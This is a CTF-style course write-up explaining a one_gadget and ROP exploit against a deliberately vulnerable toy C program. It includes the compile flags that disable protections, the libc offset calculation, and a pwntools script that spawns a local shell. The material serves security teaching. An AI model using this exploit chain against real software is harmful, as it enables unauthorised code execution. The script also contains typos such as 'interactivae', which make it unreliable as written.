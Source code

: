 ```yaml
---
title: Simple PWN - 0x08(one_gadget with ROP)
tags: [CTF, PWN, eductf]

category: "Security > Course > NTU CS > PWN"
---
```


# Simple PWN - 0x08(one_gadget with ROP)
###### tags: `CTF` `PWN` `eductf`

## one_gadget background
[Day25: [Misc] 我從來沒想過我會害怕寫 code](https://ithelp.ithome.com.tw/articles/10226977)
> 原理是在 `glibc` 裡面有很多會透過 `execve` 執行 `/bin/sh`、再調用外部系統指令的 assembly，當 explolit 已經得知 `libc` 的位之後而且可以控制 RIP 之後，就可以直接跳該位置達成 shell out，不需要再辛苦堆 stack 上的參數

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IOBNF, 0);

    char s[0x10];

    printf("Your libc: %p", printf);
    read(0, s, 0x100);

    return 0;
}
```
* The program has buffer overflow, however it has no backdoor method can access and has no global variable can write shellcode. Thus, we can consider to use `ROP` to get shell.
* Note that, it must be a dynamic library, so DO NOT use `-static` to compile it.
    ```bash!
    gcc -o one_gadget_with_rop one_gadget_with_rop.c -no-pie -fno-stack-protector -z norelro -zexecstack
    ```

## Exploit
* First, we use [<font color="FF0000">`ldd`</font>](https://shengyu7697.github.io/linux-ldd/) command to find what library the program will use.
    ![](https://imgur.com/ycRb8Tv.png)
* In addition, we use `one_gadget` command to find `execvs`
    * Note that, how to use it can refer to [one_gadget用法](https://blog.csdn.net/weixin_43092232/article/details/105085880)
    * We use `0xebcf8 execve("/bin/sh", rsi, rdx)` as our method
    ![](https://imgur.com/Y7BBH5J.png)
        * <font color="FF0000">Note:</font> it has 3 constraint so that we can get the shell
        ```bash!
        address rbp-0x78 is writable
        [rsi] == NULL || rsi == NULL
        [rdx] == NULL || rdx == NULL
        ```
* Then, we use `one_gadget` command to get `ROP` chain
    ```bash!
    ROPgadget --binary one_gadget_with_rop --only "pop|ret" > one_gadget
    vim one_gadget
    ```
    You can see that because we didn't compile with library, the gadget that we may can use is very few.
    ![](https://imgur.com/DuGINHL.png)
    The solution is using the gadget that `libc` have:
    ```bash!
    $ ROPgadget --binary  /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret" > one_gadget
    $ vim one_gadget
    ```
    We must satisfied one_gadget constraint. `0x90529` and `0x2be51` are the offset of `/lib/x86_64-linux-gnu/libc.so.6`. Therefore, if we want to call these gadget, <font color="FF0000">we must find out the real base address of `/lib/x86_64-linux-gnu/libc.so.6`</font>.
    ![](https://imgur.com/3h5PqcO.png)
    ![](https://imgur.com/Z2bBbhJ.png)
* Because, `ASLR` is turn on in default, so the address of library will be random, we just know the offset of library. In original code, it told us the `printf` address in `/lib/x86_64-linux-gnu/libc.so.6` → <font color="FF0000">`0x7ffff7def770`</font>
    ![](https://imgur.com/nuYGx24.png)
    Used `gdb` can find the current address of library → <font color="FF0000">`0x7ffff7d8f000`</font>
    ![](https://imgur.com/Et3r2hI.png)
    Then we can know the offset and construct apart of payload as below 
    $$0x7ffff7def770 - 0x7ffff7d8f000 = 0x60770$$
    ```python!=
    from pwn import *
    import sys

    context.arch = 'amd64'

    r = process('./one_gadget_with_rop')

    r.recvuntil("Your libc: ")
    libc = int(r.recv(14), 16) - 0x60770
    info(f"libc: {hex(libc)}")
    ```
* And prepare our gadget:
    ```python!=11
    pop_rdx_rbx_ret = libc + 0x90529
    pop_rsi_ret = libc + 0x2be51
    ```
* Construct whole payload with considering the constraint:
    ```python!=13
    r.send(b'a'*0x10 + p64(0x404000) + p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(pop_rsi_ret) + p64(0) + p64(libc+0xebcf8))
    r.interactivae()
    ```
    * `b'a'*0x10` is for `$rsi`
    * `p64(0x404000)` is an arbitrary writable and readable address for `$rbp-0x78` one of the constraint of one_gadget
    * `p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(pop_rsi_ret) + p64(0)` is what we did in [last lecture](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/rki3GF0cs) of `ROP`
    * `p64(libc+0xebcf8)` is the one_gadget that we choose at the beginning.
* Finally, we got shell!!!
    ![](https://imgur.com/iIETaBy.png)


## Reference
[Linux ldd 查看執行檔執行時需要哪些 library](https://shengyu7697.github.io/linux-ldd/)
[Pwn week1](https://youtu.be/ktoVQB99Gj4)